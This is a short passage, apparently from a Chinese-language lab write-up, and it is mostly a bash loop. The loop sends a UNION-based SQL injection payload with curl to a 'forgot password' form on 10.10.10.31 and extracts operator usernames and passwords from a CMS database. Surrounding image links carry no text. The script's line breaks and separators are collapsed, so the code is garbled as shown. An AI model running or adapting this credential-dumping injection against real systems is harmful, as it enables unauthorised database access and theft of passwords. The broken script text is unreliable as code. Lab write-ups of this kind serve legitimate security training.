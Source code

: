 使用脚本探测那一列是电子邮箱的地址。

```plain
for i in $(seq 0 300); dopayload="email=a@b.com' UNIoN SELECT 1,2,3,CONCAT(__username_, ':', __password_, '@b.com') FROM supercms.operators LIMIT 1 OFFSET $i-- -"curl -s -d "$payload" http://10.10.10.31/cmsdata/forgot.php | grep -o '[^ ]*@b.com' done
```

[![](assets/1703640271-7b411d8c999f26360c5db2ee38239798.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231226155530-23c33c20-a3c4-1.png)

[![](assets/1703640271-58b87f2b6ffc353039dc318bbb33a982.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231226155535-270e41ae-a3c4-1.png)
